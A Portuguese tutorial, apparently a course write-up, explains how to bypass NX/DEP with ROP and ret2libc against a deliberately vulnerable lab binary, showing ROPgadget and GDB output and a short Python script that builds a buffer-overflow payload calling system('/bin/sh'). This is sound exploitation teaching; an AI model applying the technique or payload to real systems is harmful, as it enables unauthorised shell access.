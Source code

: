### Bypass NX/DEP

### Esse texto reúne o que aprendi sobre bypass de NX juntando as video aulas do curso CEB(https://www.youtube.com/playlist?list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3) de exploração de binarios. Aula do 07 a 14.

Primeiro vamos a uma breve introdução sobre o NX ou também conhecido como DEP(Data Execution Prevention):

O NX/DEP é uma técnica de mitigação de exploração usada para garantir que apenas segmentos de código são sempre marcados como executáveis...

Ok, mas como assim somente segmentos de código marcados como executáveis??

Bom, vamos lá. Nos writeups anteriores vimos que para explorar os binários, usamos a técnica de Buffer-overflow para sobrescrever um endereço de returno e, logo depois dessa sobrescrita, jogamos algum shellcode na stack, para assim ganharmos controle sobre o fluxo de execução do binário. Essa exploração só é possível porque o binario em questão foi compilado com a flag ``` -z execstack ``` que desabilita a proteção NX.

Agora com a proteção ativada, as areas da stack e heap NÃO possuem permissão de execução. Sendo assim não será possível realizar a exploração jogando algum shellcode na stack, porque simplesmente não será executado (e provavelmente resultara em um SEGFAULT).

Sabendo disso, vamos para a parte do bypass...

* "If you can’t inject (shell)code to do your bidding, you
must re-use the existing code!" RPISEC - MBE lecture_07

Se você não pode injetar código... reutilize o código existente.


O bypass mais conhecido para NX é o ROP ``` (Return Oriented Programming)```. ROP é uma tecnica para reutilizar código/instruções existentes em um binário para montar algo malicioso. Outros termos conhecidos são ``` ROPgadgets/Gadgets ``` e ``` ROPchain ```.

Os ``` ROPgadgets ``` ou só ``` Gadgets ``` basicamente são instruções presentes na memória do binário, não fazem parte da execução da ```main```, mas podem ser utilizadas porque são parte da execução do binário (e geralemente terminam com uma instrução ```RET```). Esses gadgets podem ser usados para montar instruções maliciosas semelhante a um shellcode, e isso é chamado de ``` ROPchain ```.


### Tudo bem, ja sabemos o que é o NX e qual tecnica é usada para "bypassa-lo". Agora vamos para a demonstração:

A ideia é a seguinte: já que não podemos executar um shellcode através da stack, temos que executar algo parecido, então vamos usar a técnica ```ret2libc```. Essa técnica consiste em fazer o binário chamar funções da libc usando os endereços de memória carregados pelo próprio binário em tempo de execução. 

Para o exemplo chamaremos a função ```system()```, e como a função system() sem argumentos não faz nada, vamos passar pra ela a string ```"/bin/sh"``` como argumento. Dessa forma temos algo parecido com um shellcode.

### Step by step da exploração

1 - O binário usado de exemplo nas aulas era vulneravel a um B.O.F, então a primeira coisa a fazer é estourar o buffer e controlar algum endereço de retorno.


2 - Depois de explorar o B.O.F precisamos saber qual ```Gadget``` pode ser usado de forma maliciosa. Para isso vamos usar a tool ROPgadget (https://github.com/JonathanSalwan/ROPgadget) .

Vamos procurar por ```gadgets``` filtrando por ```"pop rdi"```. Porque os registradores ```RDI``` e ```RSI``` são usados para passagem de argumentos na arquitetura de 64 bits.

Rodando a tool e analisando a saida, vemos a instrução que precisamos:

```sh
$ ROPgadget --binary aula_13 --ropchain | grep "pop"

...

0x00000000004011ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004011af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401109 : pop rbp ; ret
0x00000000004011b3 : pop rdi ; ret 	<====== essa aqui
0x00000000004011b1 : pop rsi ; pop r15 ; ret
0x00000000004011ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

Deixe o endereço separado e vamos para o próximo passo.


3 - Agora precisamos achar o endereço da string ```"/bin/sh"``` na memória a qual o binário tem acesso em tempo de execução. 

Para isso vamos rodar o binário no GDB, setar um breakpoint qualquer e logo depois da execução parar no breakpoint, vamos buscar pela string "/bin/sh" da seguinte forma: ``` gdb-peda$ find "/bin/sh" ```

```sh
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f745bd --> 0x68732f6e69622f ('/bin/sh')
```

Deixe esse endereço separado também e vamos para o próximo passo.



4 - A ultima das nossas buscas será pelo endereço da função ```system()```. Fazendo da mesma forma que o endereço de "/bin/sh".

Rode o binário no GDB, sete um breakpoint qualquer e logo depois da execução parar no breakpoint, busque pelo endereço da seguinte forma: ``` gdb-peda$ p system ```


```sh
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
```


5 - Depois de ter os endereços necessários vamos montar o script do exploit:


```py
import struct

buf = b""
buf += b"A"*88                              #JUNK
buf += struct.pack("<Q", 0x4011b3)      	#POP RDI; RET;
buf += struct.pack("<Q", 0x7ffff7f745bd)    #POINTER TO "/bin/sh"
buf += struct.pack("<Q", 0x7ffff7e12290)    #SYSTEM ADDR

f = open("exp", "wb")
f.write(buf)
```


6 - Agora com tudo pronto vamos executar o exploit e ver como tudo funciona:


* Passando o arquivo com o junk da exploração:

(img)


* RET sobrescrito com o Gadget

(img)


* O "/bin/sh" seguido pelo função system na stack

(img)


* "/bin/sh" passado para o registrador RDI

(img)


* entrando na função system 

(img)


* termina execução e sai startando um novo processo

(img)


* rodando exploração fora do GDB

(img)

